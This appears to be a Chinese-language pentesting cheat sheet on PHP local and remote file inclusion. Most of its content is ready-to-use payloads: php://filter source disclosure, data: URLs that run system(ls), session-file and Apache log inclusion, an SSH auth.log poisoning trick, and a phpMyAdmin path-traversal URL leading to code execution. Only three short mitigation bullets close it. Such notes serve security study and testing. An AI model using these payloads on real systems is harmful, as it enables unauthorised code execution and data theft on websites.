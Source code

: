 # File Inclusion  
直接將包含文件作為xxx數據流來解析，場景就是攻擊者能控包含文件的變量  
常見危險函式：  
PHP: `include()`, `include_once()`, `require()`, `require_once()`, `fopen()`, `readfile()`  
JSP: `java.io.FileReader()`  
ASP: `includefile`  
php包含一個文件，會將該文件內容當作php代碼執行，因此不受檔名類型影響。  

# LFI  
能夠打開本地文件  

# RFI  
包含遠程文件，危害較大，但條件更嚴苛  
`php.ini`中設置  
1. allow_url_fopen = on (default: on)  
2. allow_url_include = on (default: off)  

# 包含手勢  
1. php偽協議  
```php
php://input
// 條件：allow_url_include = on
?file=php://input
POST data: xxx

php://filter
// 爆源碼
?file=php://filter/read=convert.base64-encode/resource=file.php

phar://path.zip/file.php
// php5.3.0up, 解析壓縮檔案

zip://path.zip%23file.php
// php5.3.0up, 功能與phar://一樣, 但需要指定絕對路徑, 而且要將#編碼成%23

data:URL schema
// php5.2up, php.ini中兩個設置都要on
?file=data:text/plain,<?php phpinfo();?>
?file=data:text/plain,<?php system(ls);?>
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b (base64編碼phpinfo)
```  
2. include session  
session內容可控，session路徑已知...  
session路徑可以透過phpinfo中`session_save_path`得知  
常見存放位置：  
```php
/var/lib/php/sess_xxxxx
/var/lib/php/sessions/sess_xxxx
/tmp/sess_xxxxxx
/tmp/sessions/sess_xxxxx
```  
實際案例：  
phpmyadmin從LFI漏洞到RCE  
```php
xxx/phpmyadmin/index.php?target=xxx.php%253F/../../../../../var/lib/php/sessions/sess_xxxxxx
```  
3. include log  
log是否可讀  
以apache為例，request會被寫入`access.log`，錯誤就寫入`error.log`，默認儲存在`/var/log/apache2/`  
所以應用場景先透過配置文件得到路徑，還需要注意請求會不會被編碼，可以透過burp修改再送出，最後再包含log即可  
4. include ssh log  
是否可讀？  
默認路徑在`/var/log/auth.log`  
```php
ssh '<?php phpinfo();?>'@remotehost
// phpinfo代碼會出現在log裡，在進行include就好
```  
5. include environ  
6. include fd  
7. include temp file  
8. include uploaded file  

# 防禦手勢  
稍微總結一下上面的條件，可以得到下面mitigation的手法  
* php `open_basedir`  
* read permission  
* 過濾危險字符
